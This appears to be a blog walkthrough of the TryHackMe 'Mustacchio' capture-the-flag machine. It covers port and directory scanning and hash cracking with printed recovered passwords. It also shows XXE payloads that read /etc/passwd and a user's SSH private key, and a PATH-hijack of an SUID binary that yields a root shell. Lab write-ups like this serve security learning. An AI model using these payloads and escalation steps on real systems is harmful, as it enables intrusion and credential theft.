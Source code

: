 ```yaml
---
layout: post
title: Walkthrough - Mustacchio
published: true
---
```


XXE, Enumeration, PrivEsc, Web, PATH. Boot2Root Machine

[https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.12.244 -vvv``

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- pretty standardish website on port 80 not much to see here by an initial look. nothing in the source codes.

- ``gobuster dir -u http://10.10.12.244/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- our gobuster scan finds us ``/custom/`` that has ``/js/`` which contains a ``users.bak`` file. Downloading that and checking it out we find credentials for admin with a SHA1 hash. Crack with hashcat and rockyou ``hashcat -m 100 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b /usr/share/seclists/Passwords/rockyou.txt``

- port 8765 we have a login page we can use these credentials ``admin:bulldog19``
- the source code on ``home.php`` someone left us a comment ``<!-- Barry, you can now SSH in using your key!-->``
- upon submission we also find the location of another ``.bak``, ``dontforget.bak`` which gives us an xml comment and also submitting the form black gives us an alert telling us to submit an xml code.
- pasting the xml from ``dontforget.bak`` lets us see how the code is working.
- we can alter the code in order to give us system information.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- since we have a hint that barry can login to the server with his rsa key lets get that to our system

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- save the rsa to a file and ``ssh2john``. Crack using rockyou and ``john``. and we recieve ``urieljames`` for the credentials.

- login to ssh with the key and pass to get our user flag.

* * * 

## What is the user flag?

![](/assets/mustacchio02.png)

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` we find a file with suid set ``home/joe/live_log``
- this is an ELF, lets get it over to our machine and try to check it out in Ghidra.

it has a main function that used ``tail`` to display the nginx logs. we can also see this by running ``strings``

because this function calls just ``tail`` and not its full path we can do a ``path`` exploit

- create path 

```
barry@mustacchio:/var/log$ cd ~
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ echo $PATH
/home/barry:/var/log:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- create ``tail`` in path

```
barry@mustacchio:~$ vi tail
barry@mustacchio:~$ cat tail
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ /home/joe/live_log 
root@mustacchio:~# 
```

* * * 

